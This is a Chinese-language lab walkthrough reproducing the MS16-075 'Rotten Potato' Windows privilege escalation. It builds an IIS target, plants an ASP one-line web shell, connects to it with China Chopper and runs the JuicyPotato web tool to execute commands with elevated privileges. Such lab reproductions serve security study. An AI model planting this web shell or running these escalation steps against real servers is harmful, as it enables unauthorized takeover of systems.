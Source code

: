 # Windows-烂土豆提权

漏洞复现-烂土豆提权(MS16-075)

**0x00 前言**

烂土豆提权，即使用CVE-2016-3225（MS16-075）漏洞进行提权，当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞。成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。攻击者登录系统后，运行一个经特殊设计的应用程序利用此漏洞，从而控制受影响的系统。

影响版本：Windows 7、Windows 8.1、Windows 10、Windows Server 2008、Windows Server 2012等，以上版本系统若未安装相应补丁，则大概率存在此漏洞。

|          | 靶机                                   | 攻击机         |
| -------- | -------------------------------------- | -------------- |
| 操作系统 | Windows 10 Version 1903                | kali           |
| IP地址   | 192.168.12.140                         | 192.168.12.135 |
| 备注     | 主机安装IIS 8.0，且已上传asp一句话木马 |                |



**0x01 搭建靶场**

```
Windows Server 2012

服务器管理器”->点击“添加角色和功能
在“服务器角色”中勾选“Web 服务器(IIS)”。
在“角色服务”中，展开“应用程序开发”，勾选“.NET Extensibility 4.5”、“ASP”等

打开默认站点所在的目录，一般为“C:\inetpub\wwwroot”，创建一个upload文件夹，并赋予相关权限。
在upload目录下创建shell.asp，内容为asp的一句话木马，此处直接模拟攻击者上传一句话木马。
 <%execute request("a")%>
```

**0x02 漏洞复现**

1、菜刀连接

2、打开虚拟终端，查看当前用户及用户权限。

```
 whoami
 whoami /priv
```

![image-20230301215526859](https://s2.loli.net/2023/03/09/EC8Uw74I6TBAMOh.png)

 此处发现其拥有SeImpersonate权限。

3、使用菜刀上传漏洞利用工具，使用WebShell版的JuicyPotato工具JuicyPotatoweb。

![image-20230301215717945](https://s2.loli.net/2023/03/09/kP3HnEibyXjszJr.png)

4、在虚拟终端中，切换到upload目录，使用JuicyPotatoweb.exe执行如下命令进行提权。

```
 JuicyPotatoweb.exe -p "whoami"
```

![image-20230301215902773](https://s2.loli.net/2023/03/09/dvIXRSecm3Dyi1O.png)